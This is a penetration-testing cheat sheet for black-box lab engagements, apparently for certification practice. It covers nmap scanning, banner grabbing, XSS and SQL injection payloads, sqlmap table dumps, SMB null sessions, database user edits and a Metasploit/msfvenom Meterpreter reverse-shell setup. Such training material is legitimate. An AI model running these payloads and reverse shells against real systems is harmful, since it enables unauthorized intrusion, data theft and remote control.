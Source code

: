 # Cheat Sheet

This cheat sheet is a list of commands to help with the black box
pen test engagements. 

## Networking

Check routing table information

```
$ route
$ ip route
```

Add a network to current route

```
$ ip route add 192.168.10.0/24 via 10.175.3.1
$ route add -net 192.168.10.0 netmask 255.255.255.0 gw 10.175.3.1
```

DNS

```
$ nslookup mysite.com
$ dig mysite.com
```

## Subdomain Enumeration

- [Sublist3r](https://github.com/aboul3la/Sublist3r)
- [DNSdumpster](https://dnsdumpster.com/)

## Footprinting & Scanning

Find live hosts with fping or nmap
```
$ fping -a -g 172.16.100.40/24 2>/dev/null | tee alive_hosts.txt
$ nmap -sn 172.16.100.40/24 -oN alive_hosts.txt
```

nmap scan types
```
-sS: TCP SYN Scan (aka Stealth Scan)
-sT: TCP Connect Scan 
-sU: UDP Scan
-sn: Port Scan
-sV: Service Version information
-O: Operating System information
```

### Spotting a Firewall

If an nmap TCP scan identified a well-known service, such as a web server, but
cannot detect the version, then there may be a firewall in place.

For example:
```
PORT    STATE  SERVICE  REASON          VERSION
80/tcp  open   http?    syn-ack ttl 64
```

Another example:
```
80/tcp  open   tcpwrapped 
```

**"tcpwrapped"** means the TCP handshake was completed, but the remote host
closed the connection without receiving any data. 

These are both indicators that a firewall is blocking our scan with the target!

Tips:
- Use "--reason" to see why a port is marked open or closed
- If a "RST" packet is received, then something prevented the connection - probably a firewall!

## Masscan
Masscan is designed to scan thousands of IP addresses at once.


## Vulnerability Assessment

Use the information from the Enumeration/Footprinting phases to find a vulnerable threat vector.

Below are some helpful Vulnerability assessment resources:
- Searchsploit
- ExploitDB
- Msfconsole search command
- Google
- Nessus


## Web Server Fingerprinting

Use netcat for HTTP banner grabbing:
```
$ nc <target addr> 80
HEAD / HTTP/1.0
```

Use OpenSSL for HTTPS banner grabbing:
```
$ openssl s_client -connect target.site:443
HEAD / HTTP/1.0
```

httprint is a web fingerprinting tool that uses **signature-based** technique
to identify web servers. This is more accurate since sysadmins can customize
web server banners.

```
$ httprint -P0 -h <target hosts> -s <signature file>
```

## Directory and File Enumeration

Pick your favorite URI Enumeration tool
- Gobuster - fast, multi-threaded scanner
- Dirbuster - nice GUI
- Dirb - recursively scans directories

## XSS

Look to exploit user input coming from:
- Request headers
- Cookies
- Form inputs
- POST parameters
- GET parameters

Check for XSS
```
<script>alert(1)</script>
<i>some text</i>
```

Steal cookies:
```
<script>alert(document.cookie)</script>
```

## SQL Injection

Same injection points as XSS. 

Boolean Injection:
- and 1=1; -- -
- or 'a'='a'; -- -

Once you determine that a site is vulnerable to SQLi, automate with SQL Map.

```
$ sqlmap -u <url>
$ sqlmap -u <url> -p <parameter>
$ sqlmap -u <url> --tables
$ sqlmap -u <url> -D <database name> -T <table name> --dump
```

## Windows Shares Enumeration

Check what shares are available on a host
```
$ smbclient -L //ip 
$ enum4linux -a ip_address
```

## SMB Null Attack
Try to login without a username or password:

```
$ smbclient //ip/share -N
```

## MySQL Database commands

Login to MySQL with password
```
$ mysql --user=root --port=13306 -p -h 172.16.64.81
```

```
> SHOW databases;
> SHOW tables FROM databases;
> USE database;
> SELECT * FROM table;
```

Change table entry values
```
# Add the user tracking1 to the "adm" group
> update users set adm="yes" where username="tracking1";
```

## Meterpreter reverse shell

1. Find vulnerability in target (e.g. LFI/RFI)
2. Set up a Metasploit listener
```
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp # or any payload you wish
set lhost <MY IP>
set lport <PORT>  # set to a port open on the target to bypass firewall
run
```

3. Create a matching meterpreter-based executable using msfvenom
```
msfvenon -p linux/x64/meterpreter_reverse_tcp lhost=<MY IP> lport=<PORT> -f elf -o meter
```

4. Upload the payload to target (e.g LFI/RFI)

## Adding Virtual Hosts

In the black box practice labs, we had to add a virtual host to /etc/hosts in
order to connect to the webpage.

```
$ sudo vim /etc/hosts
<IP addr>	static.foobar.org
```

## Misc

- Found a webshell/admin panel on a site?
	- Run phpinfo(); to determine if it is a PHP shell
- Try to get a reverse shell connection
- Check for flag in the user's home directory
- Enumerate, enumerate, enumerate
